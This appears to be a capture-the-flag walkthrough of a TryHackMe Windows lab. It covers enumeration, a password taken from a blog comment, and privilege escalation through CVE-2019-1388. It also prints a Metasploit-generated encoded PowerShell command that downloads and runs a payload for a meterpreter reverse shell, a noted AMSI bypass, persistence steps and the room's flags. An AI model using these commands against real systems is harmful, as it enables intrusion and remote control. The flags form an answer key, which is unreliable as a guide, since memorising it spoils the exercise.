

# Blaster

## Description

A blast from the past!

Throughout this room, we'll be looking at alternative modes of exploitation without the use of Metasploit or really exploitation tools in general beyond nmap and dirbuster. To wrap up the room, we'll be pivoting back to these tools for persistence and additional steps we can take. Without further delay, let's deploy our target machine! 

This room is a remix of my previous room [Retro](https://tryhackme.com/room/retro) with some complications I added to that room having been removed. For increased difficulty and an exercise in patience, check that room out after this. In addition, this room is the sequel to [Ice](https://tryhackme.com/room/ice). - DarkStar7471  

# [Task 2] Activate Forward Scanners and Launch Proton Torpedoes

## #2.0 - Instructions

Now that we've launched our target, let's perform some basic enumeration of the services running on it!

~~~
$ nmap -sV -sC -A 10.10.78.178
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-18 20:43 CEST
Nmap scan report for 10.10.78.178
Host is up (0.053s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-05-18T18:43:36+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-05-17T18:39:53
|_Not valid after:  2020-11-16T18:39:53
|_ssl-date: 2020-05-18T18:43:37+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.42 seconds
~~~

## #2.1 - How many ports are open on our target system?

Nmap has discovered 2 ports: 80 (http) and 3389 (ms-wbt-server).

## #2.2 - Looks like there's a web server running, what is the title of the page we discover when browsing to it?

Provided by the Nmap scan: `IIS Windows Server`

## #2.3 - Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

*Hint: This directory can be found on the wordlist 'directory-list-2.3-small.txt' which is located in /usr/share/wordlists/dirbuster on a default kali installation*

We discover a hidden directory: `/retro`.

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.78.178 -E -w /data/src/wordlists/directory-list-2.3-medium.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 220529

Error Log: /data/src/dirsearch/logs/errors-20-05-18_20-46-50.log

Target: http://10.10.78.178

[20:46:50] Starting: 
[20:46:51] 200 -  703B  - /
[20:47:24] 301 -  150B  - /retro  ->  http://10.10.78.178/retro/
~~~

## #2.4 - Navigate to our discovered hidden directory, what potential username do we discover?

All the posts are from the user `Wade` (http://10.10.78.178/retro/index.php/author/wade/).

## #2.5 - Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

*Hint: Check user comments on the blog*

From the menu on the right hand side, click on "Recent Comments" > "Wade on Ready Player One". There is an interesting comment, which could be Wade's password...

~~~
Leaving myself a note here just in case I forget how to spell it: parzival
~~~

## #2.6 - Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

*Hint: I recommend using Remmina for this. You can install this with the command 'apt install remmina'. If you're on Windows you can use the Windows RDP client to log in!*

I tried with rdesktop and vinagre, but none of these solutions worked. Remmina on the other hand worked.

Answer: `THM{HACK_PLAYER_ONE}`

# [Task 3] Breaching the Control Room

## #3.0 - Instructions

Now that we've gained access to our target system, let's see if we can find a way to escalate. To start, let's scout around the system to see if we can find anything of interest. 

## #3.1 - When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

*Hint: Sometimes looking at the history in a user's web browser can be very insightful*

The Recycle Bin contains `hhupd.exe`. Googling for it leads to `CVE-2019-1388`.

## #3.2 - Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

*Hint: Setting the trash aside doesn't clean it up, you have to take it out as well.*

Answer: `hhupd`

## #3.3 - Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!

*Hint: This video may prove valuable in case you're stuck: https://www.youtube.com/watch?v=3BQKpPNlTSo*

Follow the instructions [here](https://www.youtube.com/watch?v=3BQKpPNlTSo) to exploit the vulnerability and open a terminal as Administrator.

## #3.4 - Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

Answer: `nt authority\system`

## #3.5 - Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

Read the flag in `C:\Users\Administrator\Desktop\root.txt.txt`

Answer: `THM{COIN_OPERATED_EXPLOITATION}`

# [Task 4] Adoption into the Collective

## #4.0 - Instructions

Now that we've thoroughly compromised our target machine, let's return to our exploitation tools so that we can gain remote shell access and persistence.

## #4.1 - Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

## #4.2 - First, let's set the target to PSH (PowerShell). Which target number is PSH?

*Hint: show targets*

~~~
$ msfconsole -q 
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   2   PSH

msf5 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   PSH (Binary)
   6   Linux
   7   Mac OS X

msf5 exploit(multi/script/web_delivery) > set target PSH
target => PSH
~~~

PSH states for Powershell and is available as ID #2 in the targets list.

## #4.3 - After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

~~~
msf5 exploit(multi/script/web_delivery) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/script/web_delivery) > set LPORT 1234
LPORT => 1234
~~~

## #4.4 - Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

*Hint: Make sure you're not running this on the same port as anything else, it might start throwing errors that the port is already in use!*

~~~
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/script/web_delivery) > 
[*] Started HTTP reverse handler on http://10.9.**.**:1234
[*] Using URL: http://0.0.0.0:8080/05OIZcVTO
[*] Local IP: http://192.168.1.46:8080/05OIZcVTO
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABKAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAEoALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJABKAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOQAuADAALgA1ADQAOgA4ADAAOAAwAC8AMAA1AE8ASQBaAGMAVgBUAE8ALwB6AFUAeQBXAFIATAAwAEYAcAA3AG8AJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADkALgAwAC4ANQA0ADoAOAAwADgAMAAvADAANQBPAEkAWgBjAFYAVABPACcAKQApADsA
~~~

Now, copy this payload.

## #4.5 - Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

~~~
[*] Started HTTP reverse handler on http://10.9.**.**:1234
[*] Using URL: http://0.0.0.0:8080/05OIZcVTO
[*] Local IP: http://192.168.1.46:8080/05OIZcVTO
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABKAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAEoALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJABKAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOQAuADAALgA1ADQAOgA4ADAAOAAwAC8AMAA1AE8ASQBaAGMAVgBUAE8ALwB6AFUAeQBXAFIATAAwAEYAcAA3AG8AJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADkALgAwAC4ANQA0ADoAOAAwADgAMAAvADAANQBPAEkAWgBjAFYAVABPACcAKQApADsA
[*] 10.10.78.178     web_delivery - Delivering AMSI Bypass (939 bytes)
[*] 10.10.78.178     web_delivery - Delivering Payload (2256 bytes)
[*] http://10.9.**.**:1234 handling request from 10.10.78.178; (UUID: xt60uelo) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.9.**.**:1234 -> 10.10.78.178:49852) at 2020-05-18 22:54:53 +0200
~~~

## #4.6 - Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

*Hint: Check out this article: https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/*

~~~
msf5 exploit(multi/script/web_delivery) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ RETROWEB  10.9.**.**:1234 -> 10.10.78.178:49852 (10.10.78.178)

msf5 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
~~~

## #4.7 - Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/script/web_delivery) > use exploit/windows/
Display all 1095 possibilities? (y or n)
msf5 exploit(multi/script/web_delivery) > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.**.**        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] Exploit failed: 783: unexpected token at '<h1>Internal Server Error</h1>'
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ RETROWEB  10.9.**.**:1234 -> 10.10.78.178:49852 (10.10.78.178)

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
~~~

I tried to reboot the computer by many ways (including powershell commands, meterpreter commands) but could not succeeed due to insufficient privileges.
